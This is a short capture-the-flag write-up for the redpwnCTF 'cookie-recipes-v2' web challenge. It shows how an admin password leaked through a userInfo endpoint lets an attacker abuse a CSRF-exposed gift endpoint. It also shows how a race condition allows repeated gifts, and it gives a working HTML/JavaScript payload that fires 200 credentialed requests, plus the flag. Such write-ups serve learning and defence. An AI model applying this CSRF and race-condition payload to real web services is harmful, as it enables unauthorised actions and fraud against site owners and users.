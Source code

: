 # cookie-recipes-v2 (51 solves)

Source: [index.js](./index.js)

The "gift" endpoint is vulnerable to CSRF as long as we have the admin password. We can get this from the `userInfo` endpoint: `https://cookie-recipes-v2.2020.redpwnc.tf/api/userInfo?id=0`. The next step is to figure out how to recieve a gift multiple times, since only 1 gift won't be enough to buy the flag. We can exploit a race condition in the gifting code, as it only sets the recieved status after it gifts us 150 credits. This means that if we spam many gift requests, we can cause the server to gift us multiple times, allowing us to buy the flag.

Final Exploit:

```html
<script>
	for (i = 0; i < 200; i++) {
		var xhr = new XMLHttpRequest();
		xhr.open("POST", "https://cookie-recipes-v2.2020.redpwnc.tf/api/gift?id=11715887817660277906");
		xhr.withCredentials = true;
		xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
		xhr.send('{"username":"admin","password":"n3cdD3GjyjGUS8PZ3n7dvZerWiY9IRQn"}');
	}
</script>
```

Flag: `flag{n0_m0r3_gu3551ng}`
